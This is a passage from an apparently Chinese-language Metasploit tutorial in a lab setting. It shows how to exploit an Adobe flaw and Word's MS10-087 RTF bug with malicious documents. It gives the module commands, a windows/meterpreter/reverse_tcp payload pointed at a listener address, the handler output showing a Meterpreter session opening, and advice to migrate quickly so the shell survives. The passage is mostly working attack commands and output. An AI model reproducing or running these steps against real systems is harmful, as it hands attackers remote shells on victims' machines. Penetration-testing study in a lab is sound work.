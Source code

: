 ```
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
```

不过，对方的Adobe可能会卡死。这时候目标很可能会强制结束，所以在成功获得shell后最好赶快migrate：

![Bildschirmfoto 2018-10-30 um 3.30.55 PM.png]({{ site.url }}/images/metasploit/E4211A96885FD6B7F2D9F0E6CCBE32D5.png)

### Word

漏洞是MS10_087。同样地，我们这里先不去分析其原理。

```
OS: Windows 7 32-bit
Office: Standard 2007
```

利用过程与上面的十分类似，都是生成恶意文件：

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > show options

Module options (exploit/windows/fileformat/ms10_087_rtf_pfragments_bof):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.rtf          yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.56.1      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

同样开启监听：

```
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.16.56.1:4444
[*] Sending stage (179779 bytes) to 172.16.56.159
[*] Meterpreter session 2 opened (172.16.56.1:4444 -> 172.16.56.159:49180) at 2018-10-30 15:43:49 +0800

meterpreter > getuid
Server username: WIN-J7CB6NT7B29\rambo
```
